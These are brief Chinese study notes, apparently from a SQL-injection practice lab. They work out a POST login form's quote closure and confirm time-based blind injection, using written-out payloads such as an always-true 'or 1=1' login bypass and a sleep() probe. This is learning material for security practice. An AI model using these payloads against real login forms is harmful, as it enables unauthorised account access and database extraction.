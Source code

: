 # 确认闭合状态
输入：passwd=1&submit=Submit&uname=1  
失败

输入：passwd=1' or 1=1 --+&submit=Submit&uname=1  
正确了，说明本关是单引号闭合，而且没有报错信息，那就考虑盲注了

测试:passwd=1' or sleep(1)--+&submit=Submit&uname=1  
页面响应了一会，说明结论正确

这时候就可以写脚本了，需要学一下requests库如何传递post数据


参考脚本：第9关

# post脚本问题
在使用脚本时注释符不能使用--+，而需改成#或者-- (有个空格)  
详细请看记录中第11条